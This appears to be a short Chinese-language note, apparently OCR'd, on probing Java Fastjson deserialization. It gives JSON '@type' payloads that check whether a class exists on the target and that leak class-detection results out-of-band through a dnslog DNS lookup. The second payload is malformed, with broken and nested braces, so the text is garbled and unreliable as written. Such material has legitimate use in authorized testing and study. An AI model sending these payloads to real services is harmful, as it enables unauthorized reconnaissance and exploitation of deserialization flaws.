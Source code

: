 ![](attachments/Pasted%20image%2020221118171808.png)

## Class回显

当类存在时将返回一个类实例

```json  
{
  "p": {
    "@type": "java.lang.Class",
    "val": "com.fastjsoncheck.User"
  }
}  
```

## dnslog外带

该方式有限制，在mac环境下可以ping带 `{}` 的域名，Linux、win会报错

```json  
{
   "@type": "java.net.Inet4Address",
   "val": {
      "@type": "java.lang.String"{
   "@type": "java.util.Locale",
   "val": {
      "@type": "com.alibaba.fastjson.JSONObject",{
   "@type": "java.lang.String"
   "@type": "java.util.Locale",
   "country": "dnslog",
   "language": {
      "@type": "java.lang.String"{
   "x": {
      "@type": "java.lang.Class",
      "val": "org.python.antlr.ParseException"
   }
}}
}
}  
```